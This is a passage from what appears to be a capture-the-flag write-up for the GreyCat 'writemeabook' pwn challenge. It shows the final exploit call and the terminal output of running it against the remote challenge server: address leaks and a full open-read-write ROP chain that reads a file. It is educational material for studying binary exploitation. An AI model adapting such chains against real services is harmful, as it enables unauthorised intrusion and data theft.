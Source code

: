 ```py  
edit(1, rop.chain())  
```

## PROFIT

Finally:  
```  
nasm@off:~/Documents/pwn/greycat/writemeabook/dist$ python3 exploit.py REMOTE
HOST=34.124.157.94 PORT=12346  
[*] '/home/nasm/Documents/pwn/greycat/writemeabook/dist/chall'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x3fd000)  
   RUNPATH:  b'/home/nasm/Documents/pwn/greycat/writemeabook/dist'  
[*] '/home/nasm/Documents/pwn/greycat/writemeabook/dist/libc.so.6'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] '/home/nasm/Documents/pwn/greycat/writemeabook/dist/ld-linux-x86-64.so.2'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to 34.124.157.94 on port 12346: Done  
[+] heap: 0x81a000  
[*] Encrypted fp: 0x40484d  
[+] libc: 0x7f162182f000  
[+] environ: 0x7ffe60582c98  
[+] stackframe_rewrite: 0x7ffe60582b48  
[*] Loaded 218 cached gadgets for
'/home/nasm/Documents/pwn/greycat/writemeabook/dist/libc.so.6'  
0x7ffe60582b48:   0x7f1621874eb0 pop rax; ret  
0x7ffe60582b50:              0x2 SYS_open  
0x7ffe60582b58:   0x7f162185ae51 pop rsi; ret  
0x7ffe60582b60:              0x0 O_RDONLY  
0x7ffe60582b68:   0x7f16218593e5 pop rdi; ret  
0x7ffe60582b70:   0x7ffe60582c28 (+0xb8)  
0x7ffe60582b78:   0x7f16218c0396 syscall; ret  
0x7ffe60582b80:   0x7f16218bf528 pop rax; pop rdx; pop rbx; ret  
0x7ffe60582b88:              0x0 SYS_read  
0x7ffe60582b90:            0x100  
0x7ffe60582b98:      b'uaaavaaa' <pad rbx>  
0x7ffe60582ba0:   0x7f162185ae51 pop rsi; ret  
0x7ffe60582ba8:         0x81a000  
0x7ffe60582bb0:   0x7f16218593e5 pop rdi; ret  
0x7ffe60582bb8:              0x3  
0x7ffe60582bc0:   0x7f16218c0396 syscall; ret  
0x7ffe60582bc8:   0x7f16218bf528 pop rax; pop rdx; pop rbx; ret  
0x7ffe60582bd0:              0x1 SYS_write  
0x7ffe60582bd8:            0x100  
0x7ffe60582be0:      b'naaboaab' <pad rbx>  
0x7ffe60582be8:   0x7f162185ae51 pop rsi; ret  
0x7ffe60582bf0:         0x81a000  
0x7ffe60582bf8:   0x7f16218593e5 pop rdi; ret  
0x7ffe60582c00:              0x1  
0x7ffe60582c08:   0x7f16218c0396 syscall; ret  
0x7ffe60582c10:   0x7f16218593e5 pop rdi; ret  
0x7ffe60582c18:           0x1337 [arg0] rdi = 4919  
```